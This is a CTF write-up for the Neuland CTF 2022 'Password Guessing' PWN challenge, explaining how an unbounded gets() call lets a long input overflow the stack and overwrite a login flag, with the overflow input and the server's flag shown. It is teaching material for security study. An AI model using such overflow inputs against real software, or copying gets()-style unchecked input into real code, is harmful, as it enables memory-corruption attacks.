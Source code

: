 ```yaml
---
title: "Neuland CTF 2022 Winter - PWN"
authors: ["0xFFD700", "manuv"]
date: 2022-12-07T18:04

tags:
- CTF
- Writeup
- Cybersecurity
---
```


## Password Guessing - Easy

*Can you guess the secret password? It changes every time you start the program. There is no chance you get it right. Try your luck!*

<br>

*PS: You definitly need the password to get the flag. There is no way around.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* 

<br>

*nc summit.informatik.sexy 8083*

<br>

[password_guessing.c](/files/neuland-ctf-12-2022/password_guessing.c)

<br>

We will start off by looking at the provided source code. A random password is generated every time the program is executed. The flag gets printed out if `logged_in == 1`. `logged_in` is set to 1 if we get the right password. We would have a hard time trying to guess the password and set `logged_in` to 1 through this way. Luckily the code uses `gets` to get the user input. `gets` does not check the array boundaries and we can input as many characters as we like. This allows us to overwrite the value of `logged_in`. A basic understanding of the stack is usefull to understand why this works. We can just input a bunch of characters (> 60) and the flag will be returned:

```
$ ./password_guessing                         
Guess the random password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wrong Password

nland{dummy-flag}
```

Executed on the server we get the flag:

```
$ nc summit.informatik.sexy 8083
Guess the random password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wrong Password

nland{51mpl3_45_7h47}
```
